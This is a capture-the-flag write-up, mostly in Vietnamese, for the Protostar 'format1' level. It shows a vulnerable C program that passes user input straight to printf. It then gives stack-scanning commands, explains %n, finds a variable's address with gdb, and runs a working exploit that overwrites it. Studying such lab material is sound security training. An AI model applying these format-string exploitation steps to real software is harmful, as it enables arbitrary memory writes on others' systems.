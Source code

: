 # FORMAT ONE

## About

This level shows how format strings can be used to modify arbitrary memory locations.

Hints

  * objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Solutions

`FORMAT ONE` cho chúng ta thấy cách mà chúng ta có thể sử dụng chuỗi định dạng để thay đổi giá trị tại vị trí tùy ý trên bộ nhớ. Thử thách sẽ hoàn thành khi ta thay đổi được giá trị của biến toàn cục `target` != 0 và in ra `"you have modified the target :)"`.

Đầu tiên ta đi tìm input của chúng ta được định dạng ở parameter thứ mấy bằng cách quét stack.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 135')
ABCDEFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.6df3930f.47bd651f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.f000000.897af4f1.9384902.1e7fa30d.6995b4d0.363836.0.0.0.2f2e0000.6d726f66.317461.44434241.48474645.2e78252e.252e7825.78252e78.2e78252e
```

"ABCD" được định dạng ở parameter thứ 130 - tôi đã viết một chương trình C nhỏ để đếm dấu "." :), ta sẽ căn chỉnh lại payload quét stack để dễ sửa đổi thành payload khai thác của chúng ta.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 129 + ".%x" + ".%x" * 5')
```

Bây giờ chúng ta sẽ tìm hiểu về một `type` định dạng chuỗi là `%n`. Định dạng chuỗi `%n` cho phép người sử dụng ghi vào địa chỉ là giá trị hiện tại của đối số số lượng ký tự được in ra màn hình.

VD: ta có code C `fmt_n.c` sau.

```
#include<stdio.h>

int main(){
	int val;
	val = 1;
	printf("val = %d\n", val);
	printf("blah %n blah\n", &val);		// "blah " have five character
	printf("val = %d\n", val);
	return 0;
}
```
Run code

```
$ ./fmt_n
val = 1
blah  blah
val = 5
```

Biến val đã bị thay đổi thành giá trị = 5.

Kết thúc vd tôi nghĩ đến đây bạn đã có thể hiểu được `%n` thực sự làm gì với biến hoặc một địa chỉ bất kỳ trong bộ nhớ khi nó được nhận làm đối số.

Vậy nên bây giờ việc chúng ta cần làm để vượt qua `FORMAT ONE` là tìm được địa chỉ của biến toàn cục `target` và thay `"ABCD"` bằng địa chỉ đó để chuỗi định dạng thứ 130 nhận nó làm đối số rồi viết vào đó giá trị khác 0 khi `%x` được thay `%n`.

Tìm địa chỉ của `target` = `gdb`:

```
root@protostar:/opt/protostar/bin# gdb -q ./format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x8049638
(gdb)
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "\x38\x96\x04\x08EFGH" + ".%x" * 129 + ".%n" + ".%x" * 5')
8EFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.f1fa7928.dbb48f38.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.2e000000.7ccf99f4.572b8706.8ec651d0.6958b2da.363836.0.0.0.2f2e0000.6d726f66.317461..48474645.2e78252e.252e7825.78252e78.2e78252eyou have modified the target :)
root@protostar:/opt/protostar/bin#
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>




